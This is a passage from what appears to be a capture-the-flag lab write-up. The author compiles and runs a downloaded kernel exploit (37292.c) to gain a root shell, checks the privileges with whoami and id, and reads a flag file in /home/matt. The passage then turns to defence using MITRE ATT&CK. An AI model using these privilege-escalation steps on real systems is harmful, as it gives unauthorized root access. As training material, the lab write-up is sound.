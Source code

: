 ### Compiling and Running the Exploit

I then compiled the downloaded .c file using gcc and created an executable binary:
```bash
gcc 37292.c -o 37292
```

Finally, I ran the exploit:

```bash
./37292
```

### Confirming Root Access

It appeared a root shell was successfully spawned. I confirmed my privileges by running the following commands:

```bash
whoami
id
```

### Locating and Retrieving the Flag

While still in /tmp, I navigated to the /home directory and listed its contents:

```bash
cd /home
ls
```

I noticed a home directory for matt. Inside that folder, I found the flag1.txt file and viewed its contents:

```bash
cd matt
ls
cat flag1.txt
```

I could have used a find command to save a few extra keystrokes, but the misison is accomplished, nonetheless!!



```bash
find / -name "flag1.txt" 2>/dev/null
```
---

## Switching to Defense: How Can We Stop This?

After gaining root access through a kernel exploit, it’s critical to understand how defenders can prevent, detect, and mitigate these attacks. Let's break it down using the **MITRE ATT&CK Framework**.


